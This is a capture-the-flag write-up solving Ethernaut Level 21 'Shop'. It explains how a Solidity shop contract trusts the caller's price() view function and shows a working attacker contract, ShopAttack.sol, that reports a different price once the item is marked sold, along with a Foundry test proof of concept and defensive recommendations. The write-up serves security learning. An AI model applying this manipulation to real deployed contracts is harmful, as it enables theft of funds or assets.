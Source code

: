# Level 21 - Shop

## Objectives

- Get the item from the shop for less than the price asked.

## Contract Overview

The `Shop` contract has a public function called `buy` which allows a buyer to purchase the item at the current price. The function first checks whether the buyer's price is greater than or equal to the current price and whether the item has not already been sold. If both conditions are met, the `isSold` variable is set to true, indicating that the item has been sold, and the `price` variable is updated to the buyer's price.

The `Buyer` interface is used to ensure that the buyer contract implements the `price` function, which is required by the `buy` function in the `Shop` contract.

## Static analysis (slither)

Here are the logs from the slither:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Shop_slither.png)

## Finding the weak spots

The contract defines an interface called `Buyer` but the `buy` function is using `msg.sender`'s address to create an instance. This means that attacker can deploy an malicious contract with a `price()` function in it and it will be called by the `buy()` function when checking the price.

```solidity
  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
```

One important thing to note in this contract is that the `price()` function is marked as a `view` function, meaning it cannot modify the contract's state. As a result, we cannot use state variables to return multiple values from this function as we did in the `Elevator` contract. However, we can make external calls to other `view` or `pure `functions to return multiple values.

To return two values from the `price()` function in this contract, we could use the `isSold` variable as a condition to return either the current price value or a higher price value set by a buyer. For example, the updated `price()` function could look like this:

```solidity
   function price() external view returns (uint) {
        return shopContract.isSold() ? 0 : 100;
    }
```

## Potential attack scenario (hypothesis)

One potential attack scenario that could be exploited in the provided contract is the possibility of a attacker using a malicious implementation of the `Buyer` interface to manipulate the `buy()` function and potentially bypass the price check.

For instance, an attacker contract could be implemented to return a false value for the `price()` function, indicating a lower price than what the buyer is actually offering. This could allow the attacker to purchase the item at a lower price than intended.

## Plan of the attack

1. Attacker creates the malicious contract that implemets `price` function of the `Buyer` interface.
2. Attacker calls the `attack` function that calls `buy` function from `Shop` contract.
3. Attacker gets the item from the shop for less than the price asked.

## Malicious contract (ShopAttack.sol)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Shop.sol";

contract ShopAttack is Buyer {
    Shop shopContract;

    constructor(address _shopContract) {
        shopContract = Shop(_shopContract);
    }

    // 1. Attacker creates the malicious contract that implemets `price` function of the `Buyer` interface.
    function price() external view returns (uint) {
        return shopContract.isSold() ? 0 : 100;
    }

    // 2. Attacker calls the `attack` function that calls `buy` function from `Shop` contract.
    function attack() external {
        shopContract.buy();
    }
}

```

## Proof of Concept

Here is a simplified version of the unit test exploiting the vulnerability ([complete version here](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/test/21-Shop.t.sol))

```solidity
        // 1. Attacker creates the malicious contract that implemets `price` function of the `Buyer` interface.
        ShopAttack shopAttack = new ShopAttack(address(level));

        emit log_named_uint("Price of item before attack", level.price());

        // 2. Attacker calls the `attack` function that calls `buy` function from `Shop` contract.
        emit log_string("Starting the exploit...");
        shopAttack.attack();

        emit log_named_uint("Price of item after attack", level.price());

        // Test assertion
        assertEq(level.isSold(), true);
```

Here are the logs from the exploit contract:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Shop.png)

## Recommendations

- Never leave interfaces unimplemented and it is a really bad idea to trust implementations by other unknown contracts.
- Even though view and pure functions can not modify the state, they can be manipulated as shown above.
- Never ever trust blindly things that are not under your control.

## References

- [Blog Aditya Dixit](https://blog.dixitaditya.com/series/ethernaut)
- [Blog Stermi](https://stermi.xyz/blog/ethernaut-challenge-20-solution-shop)
- [Blog cmichel](https://cmichel.io/ethernaut-solutions/)
- [D-Squared YT - Ethernaut CTF Series](https://www.youtube.com/watch?v=_ylKN2R_o-Y&list=PLiAoBT74VLnmRIPZGg4F36fH3BjQ5fLnz)
- [Smart Contract Programmer YT - Ethernaut](https://www.youtube.com/playlist?list=PLO5VPQH6OWdWh5ehvlkFX-H3gRObKvSL6)
- [Mastering Ethereum book](https://github.com/ethereumbook/ethereumbook)

## Acknowledgements

The structure of my reports is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
- [Joran Honig Twitter thread](https://twitter.com/joranhonig/status/1539578735631949825?s=20&t=Kp6iDNXfRKQUBbsb_Yj5SQ)
